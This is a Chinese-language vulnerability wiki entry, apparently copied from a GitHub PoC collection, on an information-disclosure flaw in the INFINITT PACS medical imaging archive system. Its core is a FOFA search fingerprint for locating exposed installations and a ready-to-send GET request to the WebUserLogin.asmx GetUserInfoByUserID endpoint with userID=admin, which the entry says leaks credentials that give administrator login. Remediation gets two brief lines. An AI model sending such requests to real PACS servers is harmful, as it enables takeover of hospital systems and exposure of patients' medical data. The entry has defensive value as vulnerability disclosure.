


# 英飞达影像存档与通讯(PACS)系统存在信息泄露漏洞

# 漏洞描述

英飞达影像存档与通讯(PACS)系统 /webservices/WebUserLogin.asmx接口处存在信息泄露漏洞，泄露的信息可直接登录管理员权限系统，影响极大。

# 影响版本

英飞达影像存档与通讯(PACS)系统INFINITT PACS

# **漏洞状态**

| 漏洞细节 | 漏洞POC | 漏洞EXP | 在野利用 |
|------|-------|-------|------|
| 是 | 已公开 | 已公开 | 已知 |

## 风险等级

| 维度 | 评价 |
|----|----|
| 威胁等级 | 高危 |
| 影响面 | 广 |
| 攻击者价值 | 高 |
| 利用难度 | 低 |

# 漏洞复现

FOFA：body="./scripts/library/bluebird.min.js"

POC/EXP：

GET /webservices/WebUserLogin.asmx/GetUserInfoByUserID?userID=admin HTTP/1.1
Host: 127.0.0.1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:130.0) Gecko/20100101 Firefox/130.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Sec-GPC: 1
Connection: close
Upgrade-Insecure-Requests: 1
Priority: u=0, i

# 修复方案

关闭互联网暴露面或接口设置访问权限。

联系厂家及时打补丁。

---

> 来源：SourByte05/Vulnerability-Wiki-PoC（https://github.com/SourByte05/Vulnerability-Wiki-PoC）
